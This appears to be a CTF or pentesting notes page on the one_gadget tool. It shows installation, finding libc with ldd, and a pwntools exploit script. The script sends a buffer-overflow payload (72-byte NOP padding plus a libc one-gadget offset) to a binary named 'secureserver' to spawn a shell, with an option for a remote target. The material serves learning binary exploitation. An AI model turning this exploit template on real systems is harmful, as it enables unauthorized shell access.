 ```yaml
---
description: 08/25/2023
---
```


# ONE\_GADGET

{% embed url="https://github.com/david942j/one_gadget" %}

## Installation

Install `ruby-rubygems` if you don't already have it:

```
sudo apt install ruby-rubygems
```

Install `one_gadget`:

```
gem install one_gadget
```

## Usage

Find `libc` library:

```
ldd <binary>

 linux-vdso.so.1 (0x00007ffd3f71f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7029d40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7029f74000)
```

`libc` library:

```
/lib/x86_64-linux-gnu/libc.so.6
```

Using one\_gadget:

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We end up getting a few offsets to work with</p></figcaption></figure>

So, `libc base + offset`

This will be enough to get a shell under certain restraints.

You can take a look in the registers at the time of execution in `gdb` and see if the restraints are met and if not, you will not have success.

This script will help you with this, you will see the `libc` location and the offset being added to it of the gadget:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401179
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

# Payload to spawn shell
payload = flat(
    asm('nop') * padding,
    libc.address + 0xebcf8
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

You can see `libc.address + offset`.
